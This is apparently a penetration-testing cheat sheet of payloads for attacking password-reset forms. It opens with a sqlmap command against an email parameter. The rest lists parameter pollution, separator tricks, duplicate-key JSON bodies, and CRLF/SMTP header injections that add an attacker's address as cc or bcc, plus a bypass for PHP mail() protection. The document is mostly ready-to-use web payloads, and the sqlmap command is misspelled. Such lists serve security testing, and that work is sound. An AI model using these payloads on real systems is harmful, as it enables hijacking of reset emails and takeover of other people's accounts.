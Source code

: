 #### Try sqlmap in the email parameter as backend involvement may occur 
````
sqlpmap -r pass_reset.txt -p email
````


#### Double parameter (aka. HPP / HTTP parameter pollution):
- email=victim@xyz.tld&email=hacker@xyz.tld
#### Carbon copy:
- email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
#### Using separators:
- email=victim@xyz.tld,hacker@xyz.tld
- email=victim@xyz.tld%20hacker@xyz.tld
- email=victim@xyz.tld|hacker@xyz.tld
#### No domain:
- email=victim
- email=victim@xyz
#### JSON table:
- {"email":["victim@xyz.tld","hacker@xyz.tld"]}

#### two JSON emails(comma separator)
````
{"email":"victim@mail.com","email":"attacker@mail.com"}
````
#### Exploiting $to parameter in SMTP header injection ( This works most of the time in contact-us form)
- using semicolon separator
````
{"email":"Victim@gmail.com;Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com;Attacker@gmail.com"}
````
- using SPACE separator
````
{"email":"Victim@gmail.com%20Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com%20Attacker@gmail.com"}
````
#### CRLF Injection
- In Unix system(\n url encoded)

using carbon copy
````
{"email":"Victim@mail.com%0Acc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0Acc:Attacker@mail.com"}
````
using blind carbon copy
 ````
 {"email": "Victim@mail.com%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}
 {"email":"Victim@mail.com","email":"Victim@mail.com%0Abcc:Attacker@mail.com"}
 ````
- In Windows system(\r\n)
 
 using carbon copy
 ````
 {"email":"Victim@mail.com%0D%0Acc:Attacker@mail.com","email":"Victim@mail.com"}
 {"email":"Victim@mail.com","email":"Victim@mail.com%0D%0Acc:Attacker@mail.com"}
 ````
 using blind carbon copy 
 ````
 {"email": "Victim@mail.com%0D%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}
 {"email":"Victim@mail.com","email": "Victim@mail.com%0D%0Abcc:Attacker@mail.com"}
 ````
 #### Bypass for mail() function protection against email header injection
 ````
 {"email":"Victim@mail.com\r\n \ncc: Attacker@mail.com","email":"Victim@mail.com"}
 {"email":"Victim@mail.com","email":"Victim@mail.com\r\n \ncc: Attacker@mail.com"}
 ````
 

